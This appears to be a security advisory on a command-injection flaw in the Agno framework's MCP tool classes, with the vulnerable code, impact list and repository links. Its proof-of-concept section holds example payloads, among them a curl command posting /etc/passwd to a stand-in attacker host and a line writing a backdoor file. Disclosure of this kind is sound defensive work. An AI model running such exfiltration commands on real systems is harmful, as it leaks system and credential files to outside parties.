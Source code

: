 # Command Injection Vulnerability in Agno MCP Integration

## Summary

A critical Remote Code Execution (RCE) vulnerability exists in the Agno framework's MCP (Model Context Protocol) integration. The vulnerability allows arbitrary command execution through insufficient input validation in the `MCPTools` and `MultiMCPTools` classes. When user-controlled input is passed to the `command` parameter, it is directly processed by `shlex.split()` and passed to `StdioServerParameters` without any sanitization or validation, enabling attackers to execute arbitrary system commands with the privileges of the Agno agent process.

---

## Description

The vulnerability stems from the unsafe handling of user-controlled command strings in the Agno framework's MCP integration. The affected code paths are:

1. **MCPTools class** (`libs/agno/agno/tools/mcp.py` lines 140-148): User input passed to the `command` parameter is split using `shlex.split()` and directly used to construct `StdioServerParameters`
2. **MultiMCPTools class** (`libs/agno/agno/tools/mcp.py` lines 345-354): Similar vulnerability exists when processing multiple commands in the `commands` parameter

The vulnerability occurs because:
- No input validation or sanitization is performed on the command string
- The `shlex.split()` function only performs shell-style parsing but does not prevent command injection
- The resulting command and arguments are passed directly to the underlying MCP stdio client, which executes them as system commands
- User input can contain shell metacharacters, command separators, and arbitrary commands

---

## Affected Code

**Primary Vulnerability Location 1:**
```python
# libs/agno/agno/tools/mcp.py lines 140-148
if command is not None and transport not in ["sse", "streamable-http"]:
    from shlex import split

    parts = split(command)  # ← Vulnerable: No validation of command content
    if not parts:
        raise ValueError("Empty command string")
    cmd = parts[0]
    arguments = parts[1:] if len(parts) > 1 else []
    self.server_params = StdioServerParameters(command=cmd, args=arguments, env=env)
```

**Primary Vulnerability Location 2:**
```python
# libs/agno/agno/tools/mcp.py lines 345-354
if commands is not None:
    from shlex import split

    for command in commands:
        parts = split(command)  # ← Vulnerable: No validation of command content
        if not parts:
            raise ValueError("Empty command string")
        cmd = parts[0]
        arguments = parts[1:] if len(parts) > 1 else []
        self.server_params_list.append(StdioServerParameters(command=cmd, args=arguments, env=env))
```

---

## Proof of Concept

The vulnerability can be exploited through various entry points in the Agno framework where user input controls MCP server commands. A proof-of-concept demonstration shows how malicious commands can be injected through the command parameter.

**Attack Vector 1: Direct MCPTools instantiation**
```python
# Malicious command injection through MCPTools
malicious_command = "python3 -c 'import os; os.system(\"touch /tmp/pwned.txt\")'"
async with MCPTools(command=malicious_command) as tools:
    # The malicious command gets executed during MCP server initialization
    pass
```

**Attack Vector 2: MultiMCPTools with multiple malicious commands**
```python
# Multiple command injection through MultiMCPTools
malicious_commands = [
    "python3 -c 'import subprocess; subprocess.run([\"curl\", \"http://attacker.com/exfil\", \"-d\", \"@/etc/passwd\"])'",
    "bash -c 'echo \"backdoor\" > /tmp/backdoor.txt'"
]
async with MultiMCPTools(commands=malicious_commands) as tools:
    # All malicious commands get executed
    pass
```

---

## Impact

This vulnerability enables complete system compromise through:

1. **Arbitrary Command Execution**: Attackers can execute any system command with the privileges of the Agno process
2. **Data Exfiltration**: Sensitive files and environment variables can be stolen
3. **System Persistence**: Backdoors and persistent access mechanisms can be installed
4. **Lateral Movement**: The compromised system can be used to attack other systems in the network
5. **AI Agent Manipulation**: Malicious MCP servers can be deployed to manipulate AI agent behavior

**Real-world Attack Scenarios:**
- **Enterprise AI Deployments**: Malicious users can compromise AI agent infrastructure
- **Cloud AI Services**: Multi-tenant environments can be breached through command injection
- **Development Environments**: Developers using Agno can have their systems compromised
- **CI/CD Pipelines**: Automated systems using Agno can be exploited to compromise build infrastructure

---

## Occurrences

The following locations in the Agno repository contain vulnerable code patterns:

- [MCPTools.__init__ method - Line 140-148](https://github.com/agno-agi/agno/blob/cebb4bfe3/libs/agno/agno/tools/mcp.py#L140-L148)
- [MultiMCPTools.__init__ method - Line 345-354](https://github.com/agno-agi/agno/blob/cebb4bfe3/libs/agno/agno/tools/mcp.py#L345-L354)

**Additional Risk Locations:**
- [Example usage in cookbook/examples/agents/airbnb_mcp.py - Line 21](https://github.com/agno-agi/agno/blob/cebb4bfe3/cookbook/examples/agents/airbnb_mcp.py#L21)
- [Example usage in cookbook/tools/mcp/include_exclude_tools.py - Line 27-31](https://github.com/agno-agi/agno/blob/cebb4bfe3/cookbook/tools/mcp/include_exclude_tools.py#L27-L31)
- [Example usage in cookbook/examples/streamlit_apps/github_mcp_agent/agents.py - Line 15-18](https://github.com/agno-agi/agno/blob/cebb4bfe3/cookbook/examples/streamlit_apps/github_mcp_agent/agents.py#L15-L18)
